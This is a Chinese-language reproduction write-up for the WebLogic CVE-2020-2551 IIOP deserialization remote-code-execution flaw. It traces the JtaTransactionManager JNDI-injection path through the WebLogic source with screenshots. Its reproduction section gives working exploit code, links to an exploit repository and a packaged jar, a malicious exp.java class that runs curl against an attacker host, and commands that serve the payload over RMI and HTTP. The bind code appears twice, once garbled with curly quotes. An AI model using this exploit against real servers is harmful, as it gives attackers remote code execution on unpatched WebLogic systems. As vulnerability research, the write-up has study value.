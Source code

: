 ```yaml
---
title: "（CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce"
id: zhfly3232
---
```


## （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

```
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);

Hashtable<String, String> env = new Hashtable<String, String>();

// add wlsserver/server/lib/weblogic.jar to classpath,else will error.

env.put(“java.naming.factory.initial”, “weblogic.jndi.WLInitialContextFactory”);

env.put(“java.naming.provider.url”, rhost);

Context context = new InitialContext(env);

// get Object to Deserialize

JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();

jtaTransactionManager.setUserTransactionName(rmiurl); `Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);` 
```

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![image](../img/f73098524f05b9a3ff5c62871ce50bfa.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![image](../img/414644d260db3536c82470679ebe11fa.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![image](../img/ca009db82c573b15efb63378e8a66311.png)

然后通过反射调用**JtaTransactionManager**的**readObject()**跟进

![image](../img/6075b5415a210f73bebdde963a2d4087.png)

到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![image](../img/55a8889af4b846ab78d98414e7f4da36.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![image](../img/4a140f4c1b605bb300e5ece452bd3ac8.png)

此时**lookup()**参数可控

![image](../img/219d75ca4a0ecc57dd787763208619c2.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

```
https://github.com/ianxtianxt/CVE-2020-2551 
```

**打包好的jar包**

```
https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip 
```

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```
package payload;

import java.io.IOException;

public class exp {

```
public exp() {
    String cmd = "curl http://172.16.1.1/success";
    try {
        Runtime.getRuntime().exec(cmd).getInputStream();
    } catch (IOException e) {
        e.printStackTrace();
    }
} 
```

} 
```

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80 
```

命令行运行jar包

```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp 
```

实际效果如图

![image](../img/5e83197b8d64239528803db49418b727.png)

## 参考链接

> https://y4er.com/post/weblogic-cve-2020-2551/